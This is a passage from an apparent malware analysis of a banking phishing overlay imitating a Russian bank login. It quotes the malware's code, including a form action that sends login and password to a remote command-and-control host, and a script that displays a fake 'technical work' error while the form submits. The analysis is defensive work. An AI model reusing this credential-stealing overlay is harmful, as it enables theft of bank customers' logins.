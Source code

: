 * Логин или идентификатор: Login or ID
* Пароль: Password

At the end of the file, we can find this line:

> ```html
>document.myformsbol1.action = "http://"+MeSetting.getDomain()+"/api/indata.php?type=SBankFull";
> ```

where `myformsbol1` is the login form, and `getDomain` returns the meta-data `domain`: **pari.securedapinetworks.com**, sending credentials to the C&C server.

As the use clicks on the arrow to submit, a new page is displayed with a hard-coded error message

> ```javascript
>$('#send-sbol').click(function() {
>	$('#myformsbol1').fadeOut(1000, function() {
>		$('#error2').fadeIn(500).delay(5000).delay(100, function() {
>			document.myformsbol1.submit();
>		});
>	});
>});
> ```

and

> ```html
><div id="error2">
>	<p>В настоящее время проводятся технические работы. Приложение закроется автоматически<br><br>Приносим извинения за неудобства</p>
></div>
> ```

or in English:  "Currently, technical work is being carried out. The application closes automatically. We apologize for the inconvenience"

Meanwhile, credentials have been stolen.

### Register page

The second button of the first page leads to this page:
